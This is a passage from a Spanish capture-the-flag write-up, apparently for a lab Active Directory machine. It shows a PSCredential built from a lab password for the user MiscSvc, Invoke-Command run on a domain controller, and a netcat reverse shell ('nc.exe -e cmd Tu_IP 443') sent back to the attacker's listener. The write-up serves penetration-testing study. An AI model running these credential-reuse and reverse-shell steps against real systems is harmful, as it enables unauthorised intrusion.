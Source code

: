 * Creamos el **Script-Block** que almacene al usuario:
```batch
PS C:\Temp\Privesc> $user = 'scrm.local\MiscSvc'
$user = 'scrm.local\MiscSvc'
```

* Creamos el **Script-Block** que almacene la contraseña del usuario:
```batch
PS C:\Temp\Privesc> $password = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
$password = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
```

* Creamos el **Script-Block** que almacene un objeto que reproduce el usuario y contraseña:
```batch
PS C:\Temp\Privesc> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
$cred = New-Object System.Management.Automation.PSCredential($user, $password)
```

* Usamos el cmdlet `Invoke-Command` junto a los **Script-Blocks** para ejecutar comandos como **usuario MiscSvc**:
```batch
PS C:\Temp\Privesc> Invoke-Command -ComputerName DC1 -Credential $cred -ScriptBlock { whoami }
Invoke-Command -ComputerName DC1 -Credential $cred -ScriptBlock { whoami }
scrm\miscsvc
```

Ya podemos ejecutar comandos como **MiscSvc**, ya solo debemos obtener una sesión como este usuario:

* Abre una **netcat** con **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

* Ejecuta el binario de **netcat** para obtener la shell de **MiscSvc**:
```batch
PS C:\Temp\Privesc> Invoke-Command -ComputerName DC1 -Credential $cred -ScriptBlock { C:\Temp\nc.exe -e cmd Tu_IP 443 }
Invoke-Command -ComputerName DC1 -Credential $cred -ScriptBlock { C:\Temp\nc.exe -e cmd Tu_IP 443 }
```

* Revisa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.168] 58708
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\miscsvc\Documents>whoami
whoami
scrm\miscsvc
```
Listo.

<br>

<h3 id="PSSesion">Utilizando cmdlet Enter-PSSession para Obtener Sesión en PowerShell como Usuario MiscSvc (Fallo para Mi)</h3>
